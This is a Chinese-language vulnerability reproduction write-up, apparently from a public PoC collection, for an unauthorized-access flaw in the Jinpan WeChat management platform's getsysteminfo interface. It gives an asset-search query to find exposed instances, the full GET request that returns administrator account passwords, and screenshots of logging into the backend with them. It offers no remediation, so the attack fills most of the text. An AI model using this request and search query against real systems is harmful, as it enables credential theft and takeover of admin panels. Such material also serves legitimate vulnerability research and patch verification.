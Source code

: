 # 金盘微信管理平台getsysteminfo接口未授权访问漏洞

# 一、漏洞简介
金盘 微信管理平台 getsysteminfo接口存在未授权访问漏洞，攻击者通过漏洞可以获取账号密码信息，获取后台管理员权限。

# 二、影响班额本
+ 金盘微信管理平台<3.3.1

# 三、资产测绘
+ hunter`web.title="微信管理后台"&&web.icon=="0488faca4c19046b94d07c3ee83cf9d6"`
+ 登录页面

![1693023434425-63d7794d-540c-4402-93e3-4899a5bbb674.png](./img/xKPjSvbVlNKLE_7U/1693023434425-63d7794d-540c-4402-93e3-4899a5bbb674-617953.png)

# 四、漏洞复现
通过`poc`获取账号密码

```plain
GET /admin/weichatcfg/getsysteminfo HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

![1693023522105-e7fe1ee4-d044-4342-890c-14c8186beae2.png](./img/xKPjSvbVlNKLE_7U/1693023522105-e7fe1ee4-d044-4342-890c-14c8186beae2-177823.png)

通过获取的账号密码登录后台

![1693023660033-f14ad2f4-0a68-443f-a419-20be7830cc76.png](./img/xKPjSvbVlNKLE_7U/1693023660033-f14ad2f4-0a68-443f-a419-20be7830cc76-527705.png)



> 更新: 2024-02-29 23:55:51  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fosg83r3n5fm40nv>